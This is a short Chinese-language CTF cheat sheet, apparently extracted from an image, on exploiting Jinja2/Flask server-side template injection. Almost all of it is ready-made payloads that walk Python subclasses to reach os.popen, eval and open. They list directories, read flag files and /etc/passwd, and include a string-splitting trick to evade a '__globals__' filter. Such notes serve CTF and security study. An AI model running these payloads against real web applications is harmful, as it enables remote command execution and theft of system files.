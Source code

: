 ```

```

案例：
```
<class 'warnings.catch_warnings'>，没有内置os模块可能在第59位。可以导入后命令执行。
<class 'site._Printer'> 内含os模块（不需要import os） ，可能在第71位，可以借助这些类来执行命令。
_io.TextIOWrapper 可以文件读取，可能在122位。
```
大多数题目的flag均藏在系统中的某个文件内，或env环境变量中。

1、warnings.catch_warnings类利用：
```
目录查询
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
读取目录flask
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls /flasklight').read()")}}
读取flag
{{[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('cat /flasklight/coomme_geeeett_youur_flek ').read()")}}

命令
popen("cd ..;cd ..;cd ..;ls;cat flag.txt").read()

```

2、site._Printer类利用：
```
目录查询
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}

{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
 本来想直接用listdir('/')，但这里listdir同样被ban了

读取目录flasklight
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()}}
读取flag
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()}
```

3、_io.TextIOWrapper类利用：
```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```

4、os._wrap_close类利用
```
?name={{%27%27.__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('tac ../flag').read()}}
```
